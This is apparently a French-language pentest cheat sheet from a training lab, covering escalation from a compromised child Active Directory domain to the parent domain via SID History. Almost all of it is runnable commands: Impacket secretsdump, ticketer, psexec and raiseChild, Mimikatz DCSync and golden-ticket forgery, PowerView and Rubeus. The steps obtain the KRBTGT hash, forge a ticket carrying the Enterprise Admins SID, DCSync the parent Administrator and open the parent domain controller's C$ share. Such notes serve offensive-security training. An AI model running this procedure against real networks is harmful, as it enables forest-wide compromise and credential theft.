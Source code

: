 
> [!TIP]
> SID History attribut -> Attribut ajouté si un user est migré d'un domaine à un autre.
> ie. Si un admin du domaine est migré sur un autre domaine, son SID est sauvegardé en historique afin de toujours pouvoir accéder au premier domaine. -> Golden Ticket / DCSync ...

> [!TIP]
> Cette attaque permet de compromettre un domaine parent une fois le domaine enfant compromis grace au SidHistory correspondant au groupe "Admins d'entreprise"

Pour performer cette attaque, besoin des éléments suivants:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

Consiste à forger un Golden Ticket pour accéder au domaine parent 

# Depuis Linux
## Impacket

1. Récupérer le hash du compte KRBTGT

```shell
sudo impacket-secretsdump logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

2. Récupérer le SID du domaine

```shell
sudo impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

3. Récupérer le SID du groupe Enterprise Admins (attaché le RID du groupe au SID du domaine affiché)

```shell
sudo impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@<ip_domain_parent> | grep -B12 "Enterprise Admins"
```

4. Création du golden ticket

```shell
sudo impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

5. Injection du ticket

```shell
export KRB5CCNAME=hacker.ccache 
```

7. Obtenir un shell avec PsExec

```shell
sudo impacket-psexec LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

## Impacket-RaiseChild

Automatise tout le processus précèdent

```shell
impacket-raiseChild -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```



# Depuis Windows

## Mimikatz / Powerview

1. Récupérer le hash NT du compte KRBTGT avec Mimikatz

```powershell
lsadump::dcsync /user:LOGISTICS\krbtgt
```

2. Récupérer le SID du domaine avec PowerView

```powershell
Get-DomainSID
```

3. Récupérer le SID du groupe Enterprise Admins sur le domain cible avec Powerview

```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

4. Création du golden ticket avec Mimikatz

```powershell
kerberos::golden /user:hacker /domain:<child_domain> /sid:<sid_domain> /krbtgt:9d765b482771505cbe97411065964d5f /sids:<sid_enterprise_admins> /ptt
```

5. Valider l'injection du ticket

```powershell
klist
```

6. DCSync sur le domaine parent sur le compte Administrator

```powershell
lsadump::dcsync /user:INLANEFREIGHT\Administrator /domain:INLANEFREIGHT.LOCAL
```

7. Accéder au C$ du DC parent

```powershell
dir '\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\C$'
```

## Rubeus

Possible de forger le golden ticket avec Rubeus

```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:<child_domain> /sid:<sid_domain>  /sids:<sid_enterprise_admins> /user:hacker /ptt
```










